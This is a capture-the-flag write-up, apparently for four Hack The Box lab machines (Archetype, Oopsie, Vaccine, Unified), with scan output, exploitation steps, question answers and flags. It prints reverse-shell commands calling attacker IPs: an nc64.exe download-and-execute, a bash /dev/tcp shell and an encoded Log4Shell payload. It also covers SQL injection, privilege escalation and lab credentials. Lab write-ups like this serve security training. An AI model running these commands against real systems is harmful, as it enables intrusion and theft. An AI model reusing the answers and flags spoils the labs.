## Archetype

### nmap
```sh {linenos=true}
# Nmap 7.92 scan initiated Wed Nov  2 14:28:03 2022 as: nmap -sC -sV -oA nmap/archetype 10.129.91.127
Nmap scan report for 10.129.91.127
Host is up (0.074s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-11-02T18:27:24
|_Not valid after:  2052-11-02T18:27:24
|_ssl-date: 2022-11-02T18:28:25+00:00; -1s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-11-02T18:28:14
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-11-02T11:28:15-07:00
| ms-sql-info: 
|   10.129.91.127:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_clock-skew: mean: 1h23m59s, deviation: 3h07m51s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov  2 14:28:26 2022 -- 1 IP address (1 host up) scanned in 22.75 seconds
```

### smb
`smb` is open so: 
```sh
smbclient -N -L 10.129.91.127
```

*command tags:*
- `-N | --no-pass`: suppresses the normal password prompt from the client to the user.
- `-L | --list`: list available services on the server

We can connect to the `backups` service without a password via: 

```sh
smbclient \\\\10.129.91.127\\backups
```

The only file housed here is `prod.dtsConfig`.

*file: prod.dtsConfig*
```txt {linenos=true}
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>  
```

Notably, this file leaks us 

```txt
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;
```

### sql
Attempting to connect to sql database using `mysql`:

```sh
mysql -h 10.129.91.127 --port=1433 -u sql_svc -pM3g4c0rp123
```

After trying a couple variations of this, I realized that another tool maybe needed to connect to the `db`. [This link](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) mentioned `mssqlclient.py`. I ran `locate mssqlclient.py` to search kali for the script.

Connect via: 
```sh
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth ARCHETYPE/sql_svc@10.129.91.127
```



Then I used the [previous link](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) as well as this [cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) for `sql` commands. Generating command execution seems good:

```ps
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```

And we have command execution:


Then I tried several one-liner reverse shells for powershell, but didn't have any luck. So, I reverted back to the `netcat` binary ([nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe)) to spin up a reverse shell.

To host this file to the box: 
```sh
python3 -m http.server
```

Additionally, start `nc` locally for the reverse shell: 
```sh
nc -lvnp 1337
```

Download the binary and run: 

```ps
xp_cmdshell "powershell.exe cd c:\Users\Public; wget http://10.10.14.232:8000/nc64.exe -outfile nc64.exe; .\nc64.exe -e cmd.exe 10.10.14.232 1337"
```



After a bit of poking around, I found this:

```txt
    Directory: C:\Users\sql_svc\Desktop
                                                                                  
                                         
Mode                LastWriteTime         Length Name                             
                                      
----                -------------         ------ ----                             
                                      
-ar---        2/25/2020   6:37 AM             32 user.txt     
```

*file: user.txt:*
```txt {linenos=true}
3e7b102e78218e935bf3f4951fec21a3
```

### privesc
Now we can look into becoming `root`. One great tool for automating this process is [`winPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS). Just download it locally and then host it on a python server and download it in the reverse shell!

As I was scrolling through the output, a few things stood out:

```txt
͹ Enumerating Security Packages Credentials                                       
  Version:NetNTLMv2                                               
  Hash: sql_svc::ARCHETYPE:1122334455667788:947576aa2fadb0cbbee6e345caee3fc6:0101000000000000ec105ee002efd8013a4c4936e65e1a2e0000000008003000300000000000000000000000003000004961ea35a68c9880c3eabe5d1edabb04866d05ca16c6fe9706906f3be985311d0a00100000000000000000000000000000000000090000000000000000000000 
```



I decided to check the console history first:

```ps
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline/ConsoleHost_history.txt
```

*file: ConsoleHost_history.txt*
```txt {linenos=true}
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

Now we can revert back to `impacket` tools and use `psexec.py`:

```sh
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator:MEGACORP_4dm1n\!\!@10.129.91.127
```



Finally, print out the flag.

```sh
type C:\Users\Administrator\Desktop\root.txt
```

### Questions
- Which TCP port is hosting a database server? `1433`
- What is the name of the non-Administrative share available over SMB? `backups`
- What is the password identified in the file on the SMB share? `M3g4c0rp123`
- What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? `mssqlclient.py`
- What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? `xp_cmdshell`
- What script can be used in order to search possible paths to escalate privileges on Windows hosts? `winPEAS`
- What file contains the administrator's password? `ConsoleHost_history.txt`

**user flag:**`3e7b102e78218e935bf3f4951fec21a3`

**root flag:**`b91ccec3305e98240082d4474b848528`

## Oopsie

### nmap
```sh {linenos=true}
# Nmap 7.92 scan initiated Thu Nov  3 01:03:34 2022 as: nmap -sC -sV -oA nmap/oopsie -T4 10.129.28.128
Nmap scan report for 10.129.28.128
Host is up (0.071s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov  3 01:03:44 2022 -- 1 IP address (1 host up) scanned in 10.62 seconds
```

### http
Start with `http`. Off the bat, I noticed that `megacorp.com` is likely their domain since `admin@megacorp.com` is a listed email. Other than that, the lnading page seemed useless.

Time for `gobuster`:
```sh
sudo gobuster dir -u http://10.129.28.128 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -o gobuster.out -z
...
/images               (Status: 301) [Size: 315] [--> http://10.129.28.128/images/]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 03) [Size: 278]
/js                   (Status: 301) [Size: 311] [--> http://10.129.28.128/js/]
/themes               (Status: 301) [Size: 315] [--> http://10.129.28.128/themes/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.28.128/css/]
/.htm                 (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.28.128/uploads/]
/.                    (Status: 200) [Size: 10932]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.28.128/fonts/]
/.htaccess            (Status: 403) [Size: 278]
/.phtml               (Status: 403) [Size: 278]
/.htc                 (Status: 403) [Size: 278]
/.html_var_DE         (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.html.               (Status: 403) [Size: 278]
/.html.html           (Status: 403) [Size: 278]
/.htpasswds           (Status: 403) [Size: 278]
/.htm.                (Status: 403) [Size: 278]
/.htmll               (Status: 403) [Size: 278]
/.phps                (Status: 403) [Size: 278]
/.html.old            (Status: 403) [Size: 278]
/.ht                  (Status: 403) [Size: 278]
/.html.bak            (Status: 403) [Size: 278]
/.htm.htm             (Status: 403) [Size: 278]
/.htgroup             (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.html1               (Status: 403) [Size: 278]
/.html.LCK            (Status: 403) [Size: 278]
/.html.printable      (Status: 403) [Size: 278]
/.htm.LCK             (Status: 403) [Size: 278]
/.htaccess.bak        (Status: 403) [Size: 278]
/.html.php            (Status: 403) [Size: 278]
/.htx                 (Status: 403) [Size: 278]
/.htmls               (Status: 403) [Size: 278]
/cdn-cgi              (Status: 301) [Size: 316] [--> http://10.129.28.128/cdn-cgi/]
/.htlm                (Status: 403) [Size: 278]
/.htm2                (Status: 403) [Size: 278]
/.html-               (Status: 403) [Size: 278]
/.htuser              (Status: 403) [Size: 278]
```

`/cdn-cgi` seemed strange and stood out. After a quick search, we find this relates to [Cloudflare](https://developers.cloudflare.com/fundamentals/get-started/reference/cdn-cgi-endpoint/). Maybe there is a login page?

`http://10.129.28.128/cdn-cgi/login/` works!

I tried some basic usernames and passwords, but no luck. Let's just login as a guest for now:



Looks like the website is using `php`. Also, if we change the `id` in the url, we are able to change the `Account`, `Branding`, and `Clients` tab output. My first thought was to check the cookies to see if we can't edit something.



Combining these ideas of the cookies and the `id`, I quickly unlocked the `Uploads` tab. I guess upload a `php` [reverse shell](https://github.com/pentestmonkey/php-reverse-shell).

Now to find where this file was uploaded, and how to run it. `/uploads` seems like a plausible place to look (we saw this from our first scan).



Flag is found in `/home/robert/user.txt`

*file: user.txt*
```txt {linenos=true}
f2c74ee8db7983851ab2a96a44eb7981
```

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
``` 
The above command gives us a functional shell 
```sh
export TERM=xterm 
```
The above command lets us clear the screen.

After a bit of looking around, I found the `www` directories and went searching through that (`/var/www/html/cdn-cgi/login`). This lead to:

```txt
index.php:if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
index.php:<input type="password" name="password" placeholder="Password" />
```

*file: db.php*
```php {linenos=true}
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

We can now go from `www-data` to `robert` via `su robert` and put in his password `M3g4C0rpUs3r!`

### privesc
Time for [`linpeas`](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md). I simply downloaded the `.sh` file locally, hosted it on a python server, and then downloaded it on the reverse shell.

On the first look through, the `bugtracker` group stood out - especially since there is an unknown `SUID` (Set owner User ID) binary called `/usr/bin/bugtracker`. 



`ltrace` is a tool that allows you to run a binary and see the libraries that are being called. This will help give us a better idea of what is going on under the hood.

```sh
ltrace /usr/bin/bugtracker
```
The above command gives us the output:



Since `system("cat...")` is being run, we can simply update the `$path` environment variable to point to point to our own malicious `cat` such as a `/bin/sh` shell that will keep the admin privileges. Like so:



### Questions
- With what kind of tool can intercept web traffic? `proxy`
- What is the path to the directory on the webserver that returns a login page? `/cdn-cgi/login`
- What can be modified in Firefox to get access to the upload page? `cookie`
- What is the access ID of the admin user? `34322`
- On uploading a file, what directory does that file appear in on the server? `/uploads`
- What is the file that contains the password that is shared with the robert user? `db.php`
- What executable is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? `find`
- Regardless of which user starts running the bugtracker executable, what's user privileges will use to run? `root`
- What SUID stands for? `Set owner user id`
- What is the name of the executable being called in an insecure manner? `cat`

**user flag:** `f2c74ee8db7983851ab2a96a44eb7981`

**root flag:** `af13b0bee69f8a877c3faf667f7beacf`

## Vaccine

### nmap
```sh {linenos=true}
# Nmap 7.92 scan initiated Thu Nov  3 18:03:58 2022 as: nmap -sC -sV -oA nmap/vaccine -T4 10.129.199.211
Nmap scan report for 10.129.199.211
Host is up (0.070s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.66
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov  3 18:04:09 2022 -- 1 IP address (1 host up) scanned in 10.79 seconds
```

### ftp
`ftp` is open on `port 21` and anonymous mode is enabled. Found a file named `backup.zip`, however the files are password protected on unzipping. `john` has a tool called `zip2john` that can allow us to convert his file to hash, and ultimately try to crack it.

```sh
zip2john backup.zip > zip.hash
```

```sh
john -w=/usr/share/wordlists/rockyou.txt zip.hash
...
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip

1 password hash cracked, 0 left
```
`741852963` turns out to be the password for the zip!

Taking a look into `index.php` gives us some password information:



```txt
hash_md5(???) = "2cb42f8734ea607eefed3b70af13bbd3"
```

[md5lookup](https://md5.gromweb.com/?md5=2cb42f8734ea607eefed3b70af13bbd3) tells us the password is `qwerty789`

### http
`http` is also open, so it is likely they have a website. 



Now lets try the credentials we found `admin:qwerty789`



After looking around, the only thing that seemed potentially vulnerable on the webpage was the `search` feature. This could be injectable via `sqlmap`. I first threw the website into `burpsuite`, copied the `GET` request of the search, and then saved this to a file called `get.request`.

```sh
sqlmap -r get.request -p search
```



From here, I started looking around the databases.

```sh
sqlmap -r get.request -p search --search -C 'password'
```



There could be valuable columns in `pg_catalog`, but I noticed a command flag called `--os-shell` in `sqlmap`'s man pages. After running this I actually got a shell (even better)!


Time for a reverse shell - I just found [these payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) for bash.

```sh
bash -c "bash -i >& /dev/tcp/10.10.14.66/1337 0>&1"
```

I then used [pwncat](https://github.com/calebstewart/pwncat) to help keep a stable shell and listen on port `1337`.

```sh
find / -name user.txt 2>/dev/null
```

*file: user.txt*
```txt {linenos=true}
ec9b13ca4d6229cd5cc1e09980965bf7
```

### ssh
When starting privesc, I found something valuable for `ssh` (Secure Shell).

```sh
cd /; grep -R password
```



Looks like we can now `ssh` into the server directly instead of hosting an unstable reverse shell.

```sh
ssh postgres@10.129.199.211` 
(P@s5w0rd!)
```


### privesc
We can then try to escalate privs. Let's start with the basics like `id` and `sudo -l`


Looks like we can edit `pg_hba.conf` with `sudo` privs by using `vi`. So I tried the [basic payload](https://gtfobins.github.io/gtfobins/vi/#sudo) to get a shell. 

```sh
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

```vim
(in vi)
:set shell=/bin/sh`

:shell
```



### Questions
- Besides SSH and HTTP, what other service is hosted on this box? `ftp`
- This service can be configured to allow login with any password for specific username. What is that username? `anonymous`
- What is the name of the file downloaded over this service? `backup.zip`
- What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts? `zip2john`
- What is the password for the admin user on the website? `qwerty789`
- What option can be passed to sqlmap to try to get command execution via the sql injection? `--os-shell`
- What program can the postgres user run as root using sudo? `vi`

**user flag:** `ec9b13ca4d6229cd5cc1e09980965bf7`

**root flag:** `dd6e058e814260bc70e9bbdef2715849`

## Unified

### nmap
```sh {linenos=true}
# Nmap 7.92 scan initiated Fri Nov  4 22:29:03 2022 as: nmap -sC -sV -oA nmap/unified -T4 10.129.186.136
Nmap scan report for 10.129.186.136
Host is up (0.073s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:Cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Sat, 05 Nov 2022 02:29:11 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404
|     Found</h1></body></html>
|   GetRequest, HTTPOptions:
|     HTTP/1.1 302
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Sat, 05 Nov 2022 02:29:11 GMT
|     Connection: close
|   RTSPRequest, Socks5:
|     HTTP/1.1 400
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sat, 05 Nov 2022 02:29:11 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400
|_    Request</h1></body></html>
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.186.136:8443/manage
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  4 22:31:59 2022 -- 1 IP address (1 host up) scanned in 175.56 seconds
```

### http
Going to `10.129.186.136:8080` redirects us to `10.129.186.136:8443` and shows a login page:



After a quick search, I found that `Unifi 6.4.54` is vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) in an in-depth [post walk-through](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi). I simply followed this walk-through to get a reverse shell!

**log4j (via HTB Writeup)**

"`JNDI` (Java Naming and Directory Interface) API . By making calls to this API,
applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

`LDAP` (Lightweight Directory Access Protocol) is an open, vendor-neutral,
industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389."

***Important note:*** you must remove the spaces from the command listed in the [above writeup](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) in order to successfully get a reverse shell:

```sh
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMjUvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.25"
```



From here, we can easily get the `user.txt`



### privesc
The tutorial continues to discuss how to actually interact with `mongodb` in order to become an administrator and access the website. One way to do this is to update the `administrator` password already stored. This is done by:

Creating a `sha-512` has for our new password `unified`

```sh
$ mkpasswd -m sha-512 unified

$6$dDywalcPwNgl3LkM$Ex3SObZFkVQ5kMk4/Cmur7I9qDDKOyLNLrYbHGqt0JGz49G8fRb9KIAvFMS3AS8jGuOU/4nY5H5OtNq9/Qmpl1
```

Looking through the `ace` database for the `administrator` user.

```sh
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```



To update `administrator`'s password to `unified`, we simply need to run:

```sh
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$dDywalcPwNgl3LkM$Ex3SObZFkVQ5kMk4Cmur7I9qDDKOyLNLrYbHGqt0JGz49G8fRb9KIAvFMS3AS8jGuOU/4nY5H5OtNq9/Qmpl1"}})'
```


Bingo! `administrator:unified` got us in!

And under settings there's some valuable information!


`root:NotACrackablePassword4U2022`

Then just:

```sh
ssh root@10.129.186.136
```
...and get the flag :smirk:

### Questions
- Which are the first four open ports? `22,6789,8080,8443`
- What is title of the software that is running running on port 8443? `UniFi Network`
- What is the version of the software that is running? `6.4.54`
- What is the CVE for the identified vulnerability? `CVE-2021-44228`
- What protocol does JNDI leverage in the injection? `ldap`
- What tool do we use to intercept the traffic, indicating the attack was successful? `tcpdump`
- What port do we need to inspect intercepted traffic for? `389`
- What port is the MongoDB service running on? `27117`
- What is the default database name for UniFi applications? `ace`
- What is the function we use to enumerate users within the database in MongoDB? `db.admin.find()`
- What is the function we use to update users within the database in MongoDB? `db.admin.update()`
- What is the password for the root user? `NotACrackablePassword4U2022`

**user flag** `6ced1a6a89e666c0620cdb10262ba127`

**root flag:** `e50bc93c75b634e4b272d2f771c33681`
